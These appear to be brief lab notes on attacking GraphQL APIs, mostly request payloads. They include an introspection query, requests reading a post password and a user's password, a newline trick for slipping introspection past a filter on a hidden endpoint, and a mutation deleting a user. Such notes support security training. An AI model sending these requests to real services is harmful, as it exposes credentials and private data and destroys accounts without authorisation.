



____

# Introspection

In Repeater, right-click anywhere within the **Request** panel of the message editor, then select **GraphQL > Set introspection query** to insert an introspection query into the request body.

```json
{
  "query": "query IntrospectionQuery {\n  __schema {\n    queryType {\n      name\n    }\n    mutationType {\n      name\n    }\n    subscriptionType {\n      name\n    }\n    types {\n      ...FullType\n    }\n    directives {\n      name\n      description\n      args {\n        ...InputValue\n      }\n    }\n  }\n}\n\nfragment FullType on __Type {\n  kind\n  name\n  description\n  fields(includeDeprecated: true) {\n    name\n    description\n    args {\n      ...InputValue\n    }\n    type {\n      ...TypeRef\n    }\n    isDeprecated\n    deprecationReason\n  }\n  inputFields {\n    ...InputValue\n  }\n  interfaces {\n    ...TypeRef\n  }\n  enumValues(includeDeprecated: true) {\n    name\n    description\n    isDeprecated\n    deprecationReason\n  }\n  possibleTypes {\n    ...TypeRef\n  }\n}\n\nfragment InputValue on __InputValue {\n  name\n  description\n  type {\n    ...TypeRef\n  }\n  defaultValue\n}\n\nfragment TypeRef on __Type {\n  kind\n  name\n  ofType {\n    kind\n    name\n    ofType {\n      kind\n      name\n      ofType {\n        kind\n        name\n      }\n    }\n  }\n}"
}
```

**GraphQL > Save GraphQL queries to site map**
# Accessing private GraphQL posts

```json
{
  "query": "query getBlogPost($id: Int!) {\n  getBlogPost(id: $id) {\n    image\n    title\n    author\n    date\n    paragraphs\n    postPassword\n    isPrivate\n  }\n}",
  "operationName": "getBlogPost",
  "variables": {
    "id": 3
  }
}
```



# Accidental exposure of private GraphQL fields

getUser
```json
{"query":"query($id: Int!) {\n  getUser(id: $id) {\n    id\n    username\n    password\n  }\n}","variables":{"id":1}}
```



# Finding a hidden GraphQL endpoint

```bash
/api?query=query+IntrospectionQuery+%7B%0A++__schema+%7B%0A++++queryType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++mutationType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++subscriptionType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++types+%7B%0D%0A++++++...FullType%0D%0A++++%7D%0D%0A++++directives+%7B%0D%0A++++++name%0D%0A++++++description%0D%0A++++++args+%7B%0D%0A++++++++...InputValue%0D%0A++++++%7D%0D%0A++++%7D%0D%0A++%7D%0D%0A%7D%0D%0A%0D%0Afragment+FullType+on+__Type+%7B%0D%0A++kind%0D%0A++name%0D%0A++description%0D%0A++fields%28includeDeprecated%3A+true%29+%7B%0D%0A++++name%0D%0A++++description%0D%0A++++args+%7B%0D%0A++++++...InputValue%0D%0A++++%7D%0D%0A++++type+%7B%0D%0A++++++...TypeRef%0D%0A++++%7D%0D%0A++++isDeprecated%0D%0A++++deprecationReason%0D%0A++%7D%0D%0A++inputFields+%7B%0D%0A++++...InputValue%0D%0A++%7D%0D%0A++interfaces+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A++enumValues%28includeDeprecated%3A+true%29+%7B%0D%0A++++name%0D%0A++++description%0D%0A++++isDeprecated%0D%0A++++deprecationReason%0D%0A++%7D%0D%0A++possibleTypes+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A%7D%0D%0A%0D%0Afragment+InputValue+on+__InputValue+%7B%0D%0A++name%0D%0A++description%0D%0A++type+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A++defaultValue%0D%0A%7D%0D%0A%0D%0Afragment+TypeRef+on+__Type+%7B%0D%0A++kind%0D%0A++name%0D%0A++ofType+%7B%0D%0A++++kind%0D%0A++++name%0D%0A++++ofType+%7B%0D%0A++++++kind%0D%0A++++++name%0D%0A++++++ofType+%7B%0D%0A++++++++kind%0D%0A++++++++name%0D%0A++++++%7D%0D%0A++++%7D%0D%0A++%7D%0D%0A%7D%0D%0A
```


```bash
/api?query=query+IntrospectionQuery+%7B%0D%0A++__schema%0a+%7B%0D%0A++++queryType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++mutationType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++subscriptionType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++types+%7B%0D%0A++++++...FullType%0D%0A++++%7D%0D%0A++++directives+%7B%0D%0A++++++name%0D%0A++++++description%0D%0A++++++args+%7B%0D%0A++++++++...InputValue%0D%0A++++++%7D%0D%0A++++%7D%0D%0A++%7D%0D%0A%7D%0D%0A%0D%0Afragment+FullType+on+__Type+%7B%0D%0A++kind%0D%0A++name%0D%0A++description%0D%0A++fields%28includeDeprecated%3A+true%29+%7B%0D%0A++++name%0D%0A++++description%0D%0A++++args+%7B%0D%0A++++++...InputValue%0D%0A++++%7D%0D%0A++++type+%7B%0D%0A++++++...TypeRef%0D%0A++++%7D%0D%0A++++isDeprecated%0D%0A++++deprecationReason%0D%0A++%7D%0D%0A++inputFields+%7B%0D%0A++++...InputValue%0D%0A++%7D%0D%0A++interfaces+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A++enumValues%28includeDeprecated%3A+true%29+%7B%0D%0A++++name%0D%0A++++description%0D%0A++++isDeprecated%0D%0A++++deprecationReason%0D%0A++%7D%0D%0A++possibleTypes+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A%7D%0D%0A%0D%0Afragment+InputValue+on+__InputValue+%7B%0D%0A++name%0D%0A++description%0D%0A++type+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A++defaultValue%0D%0A%7D%0D%0A%0D%0Afragment+TypeRef+on+__Type+%7B%0D%0A++kind%0D%0A++name%0D%0A++ofType+%7B%0D%0A++++kind%0D%0A++++name%0D%0A++++ofType+%7B%0D%0A++++++kind%0D%0A++++++name%0D%0A++++++ofType+%7B%0D%0A++++++++kind%0D%0A++++++++name%0D%0A++++++%7D%0D%0A++++%7D%0D%0A++%7D%0D%0A%7D%0D%0A
```

getUser

```json
query($id: Int!) {
  getUser(id: $id) {
    id
    username
  }
}&variables={"id":3} 
```

deleteOrganizationUser

```json
mutation($input: DeleteOrganizationUserInput) {
  deleteOrganizationUser(input: $input) {
    user {
      id
      username
    }
  }
}&variables={"input":{"id":3}}
```


